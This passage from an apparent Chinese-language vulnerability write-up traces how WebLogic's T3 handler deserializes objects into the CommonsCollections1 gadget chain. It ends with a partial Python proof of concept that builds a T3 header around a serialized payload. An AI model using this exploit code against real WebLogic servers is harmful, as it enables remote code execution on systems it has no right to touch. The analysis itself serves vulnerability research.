 这里 var1 是个 MsgAbbrevInputStream 对象，这个类在 Weblogic 中实现的一个 Java 输入流类，用于接收消息并将其转换为 Java 对象， super 方法跟进去没啥东西，继续跟进 `getServerChannel`

```java
    public ServerChannel getServerChannel() {
        return this.connection.getChannel();
    }
```

`this.connection` 中存储了一些连接信息，包括IP，端口等，跟进 `getChannel` 方法

```java
        public final ServerChannel getChannel() {
            return MuxableSocketT3.this.getChannel();
        }
```

继续跟进，会调用到 `BaseAbstractMuxableSocket` 的 `getChannel` 方法

```java
    public final ServerChannel getChannel() {
        return this.channel;
    }
```

![image-20250424185722905](https://bu.dusays.com/2025/05/11/6820417280443.png)

处理完后回到 `InboundMsgAbbrev#readObject` 处，`ServerChannelInputStream` 继承了 `ObjectInputStream` 类，调用其 `readObject` 方法

![image-20250424221554617](https://bu.dusays.com/2025/05/11/682041729725e.png)

之后跟进后会调用到 `InboundMsgAbbrev#resolveClass` ，这其中的调用链

```
resolveClass:108, InboundMsgAbbrev$ServerChannelInputStream (weblogic.rjvm)
readNonProxyDesc:1610, ObjectInputStream (java.io)
readClassDesc:1515, ObjectInputStream (java.io)
readOrdinaryObject:1769, ObjectInputStream (java.io)
readObject0:1348, ObjectInputStream (java.io)
readObject:370, ObjectInputStream (java.io)
readObject:66, InboundMsgAbbrev (weblogic.rjvm)
```

这里的 var1 就是 `sun.reflect.annotation.AnnotationInvocationHandler` 类

![image-20250424222344429](https://bu.dusays.com/2025/05/11/68204175c1066.png)

再然后就会调用到 `AnnotationInvocationHandler#readObject` 了，之后就是 cc1 了

分析完调用流程后我们再回过头来看到poc

```
    header = binascii.a2b_hex(b&#34;00000000&#34;)
    t3header = binascii.a2b_hex(b&#34;016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006&#34;)
    desflag = binascii.a2b_hex(b&#34;fe010000&#34;)
    payload = header &#43; t3header  &#43;desflag&#43;  payload
    payload = struct.pack(&#34;&gt;I&#34;,len(payload)) &#43; payload[4:]
```
